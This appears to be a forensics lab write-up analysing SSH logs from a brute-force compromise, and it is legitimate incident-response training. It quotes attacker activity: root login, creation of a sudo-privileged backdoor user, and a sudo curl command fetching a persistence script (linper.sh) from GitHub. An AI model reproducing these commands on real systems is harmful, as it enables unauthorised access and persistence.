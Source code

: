# Brutus

## 1: Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?

```
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Invalid user admin from 65.2.161.68 port 46380
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Received disconnect from 65.2.161.68 port 46380:11: Bye Bye [preauth]
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Disconnected from invalid user admin 65.2.161.68 port 46380 [preauth]
```

As we can see we have a failed login attempt from IP 65.2.161.68 

## 2: The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?

```bash
Accepted password for root from 65.2.161.68 port 53184 ssh2
```

This is the attacker's IP and it successfully connect via ssh as the root user.


## 3:Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?

Using the wtmp file we can identify that timestamp. I used a pearl script to parse the data.

```bash
Thu Jan 25 11:12:31 2024 Init                       ttyS0                                               
Thu Jan 25 11:12:31 2024 Login    LOGIN             ttyS0                                               
Thu Jan 25 11:12:31 2024 Init                        tty1                                               
Thu Jan 25 11:12:31 2024 Login    LOGIN              tty1                                               
Thu Jan 25 11:13:58 2024 Normal   ubuntu            pts/0 203.101.190.9                                 
Thu Jan 25 11:15:12 2024 Term                       pts/0                                               
Thu Jan 25 11:15:40 2024 Normal   root              pts/0 203.101.190.9                                 
Thu Jan 25 12:34:34 2024 Term                       pts/0                                               
Sun Feb 11 10:33:49 2024 Normal   root              pts/0 203.101.190.9                               
Sun Feb 11 10:39:02 2024 Init                       ttyS0                                               
Sun Feb 11 10:39:02 2024 Login    LOGIN             ttyS0                                               
Sun Feb 11 10:41:11 2024 Normal   root              pts/1 203.101.190.9                                 
Sun Feb 11 10:41:46 2024 Term                       pts/1                                               
Sun Feb 11 10:54:27 2024 Normal   root              pts/1 203.101.190.9                                 
Sun Feb 11 11:08:04 2024 Term                       pts/1                                               
Sun Feb 11 11:08:04 2024 Term                       pts/0                                               
Wed Mar  6 06:17:27 2024 Init                       ttyS0                                               
Wed Mar  6 06:17:27 2024 Login    LOGIN             ttyS0                                               
Wed Mar  6 06:17:27 2024 Init                        tty1                                               
Wed Mar  6 06:17:27 2024 Login    LOGIN              tty1                                               
Wed Mar  6 06:19:55 2024 Normal   root              pts/0 203.101.190.9                                 
Wed Mar  6 06:32:45 2024 Normal   root              pts/1 65.2.161.68               #Answer                      
Wed Mar  6 06:37:24 2024 Term                       pts/1                                               
Wed Mar  6 06:37:35 2024 Normal   cyberjunkie       pts/1 65.2.161.68                                   

```

```
2024-03-06 06:32:45
```

## 4:SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

```bash
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
```

We can see the session number is 37.

## 5:The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

```bash
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/gshadow: name=cyberjunkie
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: new group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1

..

Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to shadow group 'sudo'
```

We can see the name of the new user is "cyberjunkie".

## 6:What is the MITRE ATT&CK sub-technique ID used for persistence?

Adding anew local user. https://attack.mitre.org/techniques/T1136/001/

## 7:How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)

```bash
Q3: 2024-03-06 06:32:45 from wtmp file
...

Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: Disconnected from user root 65.2.161.68 port 53184
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session closed for user root

```

The session lasted 279 seconds.

## 8:The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

```bash
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
Mar  6 06:39:38 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
Mar  6 06:39:39 ip-172-31-35-28 sudo: pam_unix(sudo:session): session closed for user root
```

He used the script "linper.sh".